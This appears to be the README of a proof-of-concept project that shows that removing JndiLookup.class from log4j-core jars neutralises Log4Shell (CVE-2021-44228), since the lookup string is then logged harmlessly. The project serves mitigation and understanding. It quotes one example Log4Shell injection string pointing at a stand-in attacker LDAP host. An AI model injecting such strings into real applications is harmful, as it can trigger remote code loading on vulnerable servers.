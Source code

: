 # Log4ShadeMitigationPoC

This is a small concept project with the aim to experiment and understand the Log4Shell vulnerability, known as [CVE-2021-44228](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/).

In particualr, it aims to prove that the mitigation proposed for versions 2.0 - 2.9, namely removing the org/apache/logging/log4j/core/lookup/JndiLookup.class file from the log4j-core-2.\*.jar, is viable, unproblematic and actually preferable for *every* version of log4j-core-2.

What it shows is that if a) the JDNI lookup functionality is triggered, either by an attacker or by normal usage and b) the class file is missing (because an administrator removed it) *everything works*. There's no error whatsoever; one would expect ClassNotFoundException or NoClassDefFoundError, but what actually happens is that the program happily works, writing the requested output (e.g. "${jndi:ldap://bad.guy.domain:389/evilcode}") in the log file without any processing. **Which for the vast majority of software is exactly what we want**.